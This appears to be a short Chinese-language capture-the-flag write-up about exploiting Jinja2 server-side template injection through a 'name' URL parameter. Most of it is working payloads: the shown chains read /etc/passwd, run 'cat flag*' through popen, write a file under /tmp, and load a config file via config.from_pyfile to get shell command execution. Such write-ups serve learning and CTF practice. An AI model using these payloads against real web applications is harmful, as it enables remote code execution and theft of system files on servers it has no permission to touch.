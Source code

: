 > 先fuzz测试拿到可以get一个name参数（这也要考，真是服了）
# 开始测试输入
```
http://1ae78b0533574fb6b763eccb831e0b3175b19e935cd04dd7.changame.ichunqiu.com/?name={{1%2B1}}
```
> 这样输出的是hello 2，推测是jinja2命令执行，继续深度测试
掏出上次的payload，
```
aa{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['popen']('cat flag*').read()}}
```
en， 果然不能用,大概到func_globals['linecache']就会报错，好像是没有globals，刚刚学了这个就没有这个，换一个新的payload
```
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
```

看wp
```
name=%7B%7B ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') %7D%7D
name=%7B%7B config.from_pyfile('/tmp/owned.cfg') %7D%7D 
name=%7B%7B%20config[%27RUNCMD%27](%27/usr/bin/id%27,shell=True)%20%7D%7D
```
大概就是写了一个配置？然后导入，就能命令执行了，这是一个新的payload，以前没注意到的payload

然后就算有一个shell
